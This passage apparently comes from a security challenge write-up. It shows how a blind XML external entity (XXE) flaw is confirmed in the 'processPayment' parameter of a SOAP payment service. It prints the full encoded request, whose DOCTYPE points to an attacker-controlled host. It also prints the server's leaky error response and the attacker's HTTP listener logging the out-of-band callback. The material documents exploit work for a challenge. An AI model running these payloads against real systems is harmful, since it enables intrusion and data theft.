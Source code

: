 
#### Confirming XXE

As a next step, the attacker needs to find the XXE bug in the only parameter that the “processPayment” call takes. The data needs to be HTML encoded, so that the XML request is not corrupted. The XXE bug is blind, no detailed error information is returned to the user. Using a host under his control, the attacker can trigger an out of band request via XXE to confirm the vulnerability. The following request is an example.

```
POST /paymentProcessor HTTP/1.1
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: "authenticate"
Content-Length: 444
Host: localhost:1212
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
xmlns:cyb="http://cybersecchallenge/">
  <soapenv:Header/>
  <soapenv:Body>
     <cyb:processPayment>
        <arg0>&lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;!
DOCTYPE files PUBLIC &quot;-//B/A/EN&quot; &quot;http://kali-
sean.gremwell.com:8080/confirm&quot;></arg0>
     </cyb:processPayment>
  </soapenv:Body>
</soapenv:Envelope>
</arg0>


HTTP/1.1 200 OK
Content-type: text/xml; charset=utf-8
Date: Tue, 05 Feb 2019 09:48:50 GMT
Content-Length: 536
<?xml version="1.0" ?><S:Envelope
xmlns:S="http://schemas.xmlsoap.org/soap/envelope/"><S:Body><ns2:processPaymentResponse
xmlns:ns2="http://cybersecchallenge/"><return>/home/ec2-user/PaymentProcessor.java:
Error parsing &lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;!
DOCTYPE files PUBLIC &quot;-//B/A/EN&quot; &quot;http://kali-
sean.gremwell.com:8080/confirm&quot;&gt;
Ensure configuration file config.txt is properly deployed on the application
server.</return></ns2:processPaymentResponse></S:Body></S:Envelope>
```

This results in the following request to our server, which confirms the issue.


```
sean@kali-sean:~/cybersecchallenge$ python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
18.216.183.118 - - [05/Feb/2019 10:48:50] code 404, message File not found
18.216.183.118 - - [05/Feb/2019 10:48:50] "GET /confirm HTTP/1.1" 404 -
```
